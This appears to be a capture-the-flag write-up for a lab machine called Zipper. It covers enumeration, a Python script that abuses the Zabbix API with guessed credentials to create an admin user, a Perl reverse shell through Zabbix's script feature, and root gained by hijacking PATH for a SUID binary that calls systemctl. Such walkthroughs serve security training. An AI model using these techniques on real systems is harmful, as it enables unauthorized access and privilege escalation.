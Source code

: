 # Zipper
### Info:
OS: Linux<br>
IP: 10.10.10.108<br>
Difficulty : easy <br>
### Enumeration:
```nmap -sC -sV -oA nmap 10.10.10.108``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/IeLn6LJ.png)
Running dirbuster on port 80 we get:
![alt text](https://i.imgur.com/rqpHarW.png) <br>
### Exploitation:
As we see `zabbix` we can create a new user with the following script:
```
#!/usr/bin/env python
from pyzabbix import ZabbixAPI
import sys
import logging

stream = logging.StreamHandler(sys.stdout)
stream.setLevel(logging.DEBUG)
log = logging.getLogger('pyzabbix')
log.addHandler(stream)
log.setLevel(logging.DEBUG)
zapi = ZabbixAPI("http://10.10.10.108/zabbix")
zapi.login("zapper", "zapper")
print ("Connected to %s" % zapi.api_version() )

zapi.do_request('user.create',
   {
  "alias": "root",
        "passwd": "root",
        "type": 3,
        "usrgrps": [
            {
                "usrgrpid": "11"
            }

]
   }

)
```
Now we can write a script and run it via monitoring tab as shown:
![alt text](https://i.imgur.com/aKvCxD5.png) <br>
We use perl script specifically because -e tab in nc script spwaned and closed the shell immediately. <br>
Listening via `nc -lvnp 1234` gave us a shell <br>
Vulnerability Exploited: reverse tcp via perl script<br>
### Privilege Escaltion:
![alt text](https://i.imgur.com/evDbKSl.png) <br>
We see an suid bit and saw the script calling systemctl, therefore we created a systemctl under /tmp whith /bin/bash
and did `export PATH=/tmp:$PATH`. Therefore running the service gave us the root. <br>
### KNOWLEDGE GAIN:
Zabbix api end point vulns <br>
Reverse tcp via perl <br>
Linux Privesc via PATH variable.
